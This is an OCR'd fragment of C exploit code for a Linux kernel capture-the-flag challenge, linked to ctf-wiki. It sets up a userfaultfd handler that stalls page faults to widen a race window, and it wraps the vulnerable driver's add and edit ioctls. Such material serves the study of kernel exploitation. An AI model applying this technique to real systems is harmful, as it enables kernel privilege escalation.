 ```c
    ur.range.start = (unsigned long)fault_page; 
    ur.range.len   = PAGE_SIZE;
    ur.mode        = UFFDIO_REGISTER_MODE_MISSING;
    if (ioctl(uffd, UFFDIO_REGISTER, &ur) == -1) 
        Panic("ioctl-UFFDIO_REGISTER");

    int s = pthread_create(&thr, NULL,handler, (void*)uffd);

    if (s!=0)
        Panic("pthread_create");
}
void* userfaultfd_leak_handler(void* arg)
{
    struct uffd_msg msg;
    unsigned long uffd = (unsigned long) arg;
    struct pollfd pollfd;
    int nready;
    pollfd.fd = uffd;
    pollfd.events = POLLIN;
    
    nready = poll(&pollfd, 1, -1);
    sleep(3);
    if (nready != 1)
    {
        Panic("Wrong poll return val");
    }
    nready = read(uffd, &msg, sizeof(msg));
    if (nready <= 0)
    {
        Panic("msg err");
    }

    char* page = (char*) mmap(NULL, PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if (page == MAP_FAILED)
    {
        Panic("[-] mmap err");
    }
    struct uffdio_copy uc;
    // init page
    memset(page, 0, sizeof(page));
    uc.src = (unsigned long) page;
    uc.dst = (unsigned long) msg.arg.pagefault.address & ~(PAGE_SIZE - 1);
    uc.len = PAGE_SIZE;
    uc.mode = 0;
    uc.copy = 0;
    ioctl(uffd, UFFDIO_COPY, &uc);
    return NULL;
}
void add(size_t idx,size_t size,size_t name)
{
    X n132;
    n132.idx = idx;
    n132.buf = name;
    n132.size = size;
    ioctl(fp,0x100,&n132);
}
void edit(size_t idx,size_t size,size_t name){
    X n132;
    n132.idx = idx;
    n132.buf = name;
    n132.size = size;
    ioctl(fp,0x300,&n132);
```

[1]: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel
[2]: https://ctf-wiki.org/pwn/linux/kernel-mode/exploitation/userfaultfd/